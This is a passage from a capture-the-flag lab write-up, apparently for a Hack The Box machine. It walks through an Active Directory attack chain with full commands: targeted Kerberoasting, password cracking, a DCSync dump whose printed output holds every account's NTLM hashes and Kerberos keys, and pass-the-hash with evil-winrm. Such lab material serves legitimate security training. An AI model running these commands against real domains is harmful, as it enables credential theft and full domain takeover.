








 Now we can see if user Emily have “Outbound Object Control” over another user.


 Emily has a “GenericWrite” over Ethan user, and if we see the right help information, we can do a Targeted Kerberoast. We can click on the link to get more information about Kerberoast → https://github.com/ShutdownRepo/targetedKerberoast
  ```bash
 $ git clone https://github.com/ShutdownRepo/targetedKerberoast.git  
 $ pip3 install -r requirements.txt --break-system-packages
 $ python3 targetedKerberoast.py -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d administrator.htb --dc-ip 10.10.11.42
 ```
 If you have any problem with the clock sync
 ```bash
 $ sudo timedatectl set-ntp false
   sudo ntpdate -u 10.10.11.42
```


We can save the hash in a hash file



And now we can try to crakc with John the Ripper
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Now we have all the Ethan credentials ethan:limpbizkit. We can chek it
```bash
$  netexec smb 10.10.11.42 -u ethan -p 'limpbizkit'
```


 So we can check what can do the user ethan in bloodhound tool.

 

  With these privileges, we can potentially become domain administrators. If we click in “GetChanges” we can see that what we can do. In this case a “dcsync attack”

  
```bash
   $ secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
 ```
 ```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:74c2d8511451c3ed7f148b6c9784b8f932cc9171b8bef9f8191a876fbd201688
administrator.htb\michael:aes128-cts-hmac-sha1-96:9c0a18a5505ac0b31e750e58510830db
administrator.htb\michael:des-cbc-md5:576d3704ea57eff1
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:debcfa9696a54eecc68ec3059bd1e382adf8056d3d373b5636817cde36d340e7
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:e07a6bebd5577429690961f33f0d537a
administrator.htb\benjamin:des-cbc-md5:cdc454c4adab5452
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
[*] Cleaning up... 
```
Now we got the administrator hash, so with this information we can get the Administrator credentials



 We can try to make a hash the pass with evil-winrm tool and get a shell with Administrator to get the root flag.
 ```bash
 $ evil-winrm -i 10.10.11.42 -u 'Administrator' -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

```bash
 Root Flag → c18050cf756fb4532626aa379b60ebb3
```

[Back](README.md)